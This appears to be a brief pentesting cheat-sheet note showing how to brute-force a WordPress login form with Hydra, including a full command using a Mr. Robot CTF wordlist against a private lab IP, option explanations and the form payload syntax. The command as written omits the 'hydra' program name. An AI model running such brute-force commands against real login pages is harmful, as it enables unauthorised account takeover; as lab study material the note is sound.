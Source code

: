 # Hydra


## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Command:
```console
root@machine:~$ -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & ``^PASS^`` are used as placeholder. ``"F=Invalid username"`` is the string for the error message.

---
